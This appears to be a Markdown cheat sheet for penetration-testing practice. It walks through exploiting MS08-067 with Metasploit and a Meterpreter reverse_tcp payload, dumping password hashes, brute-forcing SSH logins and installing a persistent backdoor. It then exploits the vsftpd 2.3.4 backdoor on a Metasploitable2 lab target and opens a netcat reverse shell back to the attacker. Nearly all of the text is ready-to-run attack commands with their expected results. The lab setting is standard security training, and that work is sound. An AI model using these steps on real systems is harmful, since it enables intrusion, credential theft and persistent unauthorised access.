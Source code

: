 ### 1. **Search for Exploits**
   - Use `search` to find exploits related to a specific vulnerability or service:
     ```bash
     search ms08_067
     ```
   - This will list exploits related to the SMB vulnerability on older Windows versions.

### 2. **Use an Exploit**
   - Select an exploit:
     ```bash
     use exploit/windows/smb/ms08_067_netapi
     ```
   - Show required options:
     ```bash
     show options
     ```

### 3. **Set Target Options**
   - Define the target IP:
     ```bash
     set RHOSTS 192.168.1.100
     ```
   - Set payload:
     ```bash
     set PAYLOAD windows/meterpreter/reverse_tcp
     ```
   - Define local host (attacker machine):
     ```bash
     set LHOST 192.168.1.50
     ```

### 4. **Launch the Exploit**
   - Run the exploit:
     ```bash
     exploit
     ```
   - If successful, you will get a Meterpreter session.

### 5. **Post-Exploitation with Meterpreter**
   - Get system info:
     ```bash
     sysinfo
     ```
   - Get a shell:
     ```bash
     shell
     ```
   - Dump password hashes:
     ```bash
     hashdump
     ```

### 6. **Scanning with Metasploit**
   - Use `auxiliary/scanner` modules to find vulnerabilities:
     ```bash
     use auxiliary/scanner/portscan/tcp
     set RHOSTS 192.168.1.0/24
     run
     ```

### 7. **Brute-Forcing Logins**
   - Use brute-force modules to test for weak credentials:
     ```bash
     use auxiliary/scanner/ssh/ssh_login
     set RHOSTS 192.168.1.100
     set USERNAME admin
     set PASSWORD password123
     run
     ```

### 8. **Persistence & Maintaining Access**
   - Create a persistent backdoor:
     ```bash
     run persistence -U -i 5 -p 4444 -r 192.168.1.50
     ```
   - This sets up a backdoor that reconnects every 5 seconds.




----------------------------------------------------------------------------------

`Another example for port 21`

### **Step 1: Identify the Vulnerable Service on Port 21**
Since port **21** is for **FTP**, and you are using Metasploitable2, the likely vulnerable service is **vsftpd 2.3.4**.

- Check your **Nmap scan results**:
  ```bash
  nmap -p 21 -sV <target-IP>
  ```
  - If you see `vsftpd 2.3.4`, then you have found the vulnerable service.

### **Step 2: Search for an Exploit**
Use `searchsploit` to find an exploit for `vsftpd 2.3.4`:
```bash
searchsploit vsftpd 2.3.4
```
- This should return something like:
  ```
  vsftpd 2.3.4 - Backdoor Command Execution | exploits/unix/remote/49757.py
  ```
- The rightmost column shows the path to the exploit inside Kali.

### **Step 3: Examine the Exploit**
Open the script using nano:
```bash
nano /usr/share/exploitdb/exploits/unix/remote/49757.py
```
- Look for any parts that require **editing**, but most likely, this script takes the **target IP** as an argument.

### **Step 4: Run the Exploit**
- First, check what happens when you run it without arguments:
  ```bash
  python3 /usr/share/exploitdb/exploits/unix/remote/49757.py
  ```
  - It should show usage instructions.

- Now, run the script with the **target IP**:
  ```bash
  python3 /usr/share/exploitdb/exploits/unix/remote/49757.py <target-IP>
  ```
  - If successful, you should see:  
    ```
    Success, shell opened.
    ```

### **Step 5: Test the Shell**
- Run a command to confirm shell access:
  ```bash
  whoami
  ```
  - Expected output: `root` or another system user.
- Try listing files:
  ```bash
  ls -l
  ```

### **Bonus: Maintain Access**
If you want to establish a **reverse shell**:
```bash
nc -e /bin/bash <your-Kali-IP> 4444
```
Then on your **Kali machine**, set up a Netcat listener:
```bash
nc -lvnp 4444
```

